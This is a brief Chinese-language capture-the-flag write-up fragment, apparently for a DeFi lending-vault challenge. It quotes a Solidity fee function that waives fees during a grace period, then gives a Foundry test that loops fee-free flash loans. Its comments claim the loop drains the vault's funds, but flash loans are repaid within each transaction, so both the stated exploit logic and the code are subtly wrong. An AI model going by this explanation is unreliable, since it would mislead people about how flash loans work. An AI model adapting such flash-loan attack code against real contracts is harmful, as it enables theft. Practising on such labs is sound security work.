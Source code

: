 ```if (block.timestamp < end && _amount < maxFlashLoan(_token)) { 
            return 0; // 手續費為 0
        } else {
            return _amount.mulWadUp(FEE_FACTOR); 
        }
```
在寬限期內並且借款金額小於最大可借金額是可以不用手續費的，所以理論上可以一直借
所以根據這個想法可以寫出以下
```function test_unstoppable() public {
        // Remove vm.startPrank here since it's already in the modifier
        
        // 設置每次借貸的金額（可選擇小於總金額的適當值）
        uint256 amountToBorrow = 100e18;

        // 總共要借出多少次以取出所有金庫資金
        uint256 numLoans = TOKENS_IN_VAULT / amountToBorrow;

        // 進行多次閃電貸，逐步取出金庫中的資金
        for (uint256 i = 0; i < numLoans; i++) {
            // 每次借貸都應該確保是有效的
            try vault.flashLoan(
                monitorContract, // 使用 monitorContract 作為閃電貸接收者
                address(token),
                amountToBorrow,
                ""
            ) {
                // 如果成功，繼續進行下一步
            } catch {
                // 處理錯誤，例如金庫可能已經被暫停
                break;
            }
        }

        // Remove vm.stopPrank here since it's handled by the modifier
    }

```
